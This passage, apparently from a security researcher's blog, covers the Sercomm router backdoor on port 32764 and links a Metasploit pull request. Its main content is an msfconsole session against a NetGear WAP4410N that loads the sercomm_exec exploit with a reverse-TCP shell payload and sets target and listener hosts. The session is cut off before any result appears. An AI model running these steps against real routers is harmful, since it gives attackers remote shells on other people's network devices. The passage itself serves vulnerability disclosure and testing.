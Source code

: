 During my testing over several devices, however, I found that sometimes devices that would talk to me using big endian, would sometimes require little endian payloads, and vice versa. It was odd, and I can't explain it, but they did. So I added several new targets to my exploit, for specific devices, as well as 2 generic ones. As I get ahold of additional devices (or anyone else for that matter), the code will be updated to reflect those new values. Those changes will hopefully be merged into the trunk soon, but for now, the code can be accessed [here](https://github.com/rapid7/metasploit-framework/pull/2874).

To demonstrate this bug, I have exploited a NetGear WAP4410N device:

```
➜  ~  msfconsole -r wap4410n.rc
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%     %%%         %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %  %%%%%%%%   %%%%%%%%%%% http://metasploit.pro %%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%  %%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  %%%%%%%%%   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%  %%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%    %%   %%%%%%%%%%%  %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%  %%%%%
%%%%  %%  %%  %      %%      %%    %%%%%      %    %%%%  %%   %%%%%%       %%
%%%%  %%  %%  %  %%% %%%%  %%%%  %%  %%%%  %%%%  %% %%  %% %%% %%  %%%  %%%%%
%%%%  %%%%%%  %%   %%%%%%   %%%%  %%%  %%%%  %%    %%  %%% %%% %%   %%  %%%%%
%%%%%%%%%%%% %%%%     %%%%%    %%  %%   %    %%  %%%%  %%%%   %%%   %%%     %
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%  %%%%%%% %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%          %%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


       =[ metasploit v4.9.0-dev [core:4.9 api:1.0] ]
+ -- --=[ 1251 exploits - 681 auxiliary - 201 post ]
+ -- --=[ 328 payloads - 32 encoders - 8 nops      ]
+ -- --=[ Answer Q's about Metasploit and win a WiFi Pineapple Mk5   ]
+ -- --=[ http://bit.ly/msfsurvey (Expires Wed Jan 22 23:59:59 2014) ]

[*] Processing wap4410n.rc for ERB directives.
resource (wap4410n.rc)> use exploit/linux/misc/sercomm_exec
resource (wap4410n.rc)> set target 2
target => 2
resource (wap4410n.rc)> set payload linux/mipsbe/shell_reverse_tcp
payload => linux/mipsbe/shell_reverse_tcp
resource (wap4410n.rc)> set rhost 192.168.1.1
rhost => 192.168.1.1
resource (wap4410n.rc)> set lhost 192.168.1.136
lhost => 192.168.1.136
msf exploit(sercomm_exec) > show options

Module options (exploit/linux/misc/sercomm_exec):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.1.1      yes       The target address
   RPORT  32764            yes       The target port


Payload options (linux/mipsbe/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.136    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:
```